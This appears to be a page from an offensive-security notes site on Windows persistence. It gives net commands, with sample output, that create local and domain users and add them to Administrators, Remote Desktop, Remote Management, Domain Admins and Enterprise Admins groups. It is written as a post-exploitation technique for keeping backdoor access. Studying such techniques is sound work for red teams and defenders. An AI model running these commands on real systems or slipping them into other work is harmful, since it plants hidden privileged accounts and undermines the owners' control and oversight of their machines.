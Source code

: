 ```yaml
---
title: "Persistence"
date: 2024-9-30
tags: ["AddMember", "Account", "Windows", "Persistence"]
---
```


### Add local user

```console
# Create new user
net user '<USER>' '<PASSWORD>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net user test Test1234!@ /add
The command completed successfully.
```

```console
# Add user to admin group
net localgroup Administrators '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup administrators test /add
The command completed successfully.
```

```console
# Add user to remote desktop group
net localgroup "Remote Desktop Users" '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup "remote desktop users" test /add
The command completed successfully.
```

```console
# Add user to remote management group
net localgroup "Remote Management Users" '<USER>' /add
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net localgroup "Remote Management Users" test /add
The command completed successfully.
```

```console
# Check
net user <USER>
```

```console {class="sample-code"}
PS C:\WINDOWS\system32> net user test
net user test
User name                    test
Full Name                    
Comment                      
User's comment               
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            9/30/2024 7:20:12 AM
Password expires             Never
Password changeable          10/1/2024 7:20:12 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script                 
User profile                 
Home directory               
Last logon                   9/30/2024 7:24:50 AM

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Desktop Users 
                             *Remote Management Use*Users                
Global Group memberships     *None                 
The command completed successfully.
```

### Add domain user

```console
net user '<USER>' '<PASSWORD>' /add /domain
```

```console
net group 'Domain Admins' '<USER>' /add /domain
```

```console
net group "Enterprise Admins" '<USER>' /add /domain
```